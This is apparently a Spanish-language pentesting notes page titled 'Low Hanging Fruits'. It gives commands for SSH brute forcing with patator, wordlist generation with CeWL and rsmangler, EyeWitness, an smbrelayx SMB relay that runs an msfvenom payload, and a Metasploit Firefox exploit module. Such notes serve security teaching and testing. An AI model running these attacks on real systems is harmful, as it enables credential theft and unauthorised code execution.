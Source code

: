 ```yaml
---
title: 'Low Hanging Fruits'
description: ''
pubDate: 'May 12 2023'
heroImage: '/'
slug: 'exploit'
---
```


### Low Hanging Fruits

Servidores mal configurados.

Implementaciones malas de ACL's.

SMB mal configurado.

Request Broadcast.

Vulnerabilidades relacionadas a exploits públicos.

**herramientas contra Low Hanging Fruits:**

```bash
# patator for brute forcing powerfull tool

patator ssh_login host=10.0.0.1 user=root password=FILEO 0=passwords.txt -x ignore:mesg='Authentication failed.'

patator [module] host=FILEO user=FILE1 password=FILE2 0=hosts.txt 1=logins.txt 2=pwd.txt

patator ssh_login host=192.168.0.155 user=FILEO password=FILE1 0=username.lst 1=password.lst -x ignore:mesg='Authentication failed.'
```

EyeWitness

```bash
python EyeWitness.py --headless --prepend-https -f urls.txt

```

_Rsmangler_ podemos generar una lista que contenga varias permutaciones dada una lista de palabras.

```bash
# nos genra un txt
cat words.txt | rsmangler --file - > new_words.txt

```

_CeWL_ Scrapea la website objetivo para cojer keywords,y a su vez genera una lista de palabras.

```bash
cewl -m 8 http://www.google.com
# luego podemos usarlo con Rsmangler
```

#### NTLMv2

```bash
Blob signature (4 Byte)
Reserved (4 Bytes)
Timestamp (8 Bytes)
Client nonce (Random 8 Bytes)
Unknown (4 Bytes)
Target Information (Variable length)
Unknown (4 Bytes)

```

_smb realay on NTLMv1_ only work if the target machines has the "Network security: LAN Manager authentication level" set to "Send LM & NTLM responses"

La configuracion del nivel de autenticacion "Send NTLMv2 response only" podria no detener el ataque

```bash
# payload created usgin msfvenom.
# Decmios que corra el script smbexp.exe cuando el ataque sea exitoso
smbrelayx.py -h target_ip -e /home/user/smbexp.exe
```

use exploit/multi/browser/firefox_pdfjs_privilege_escalation
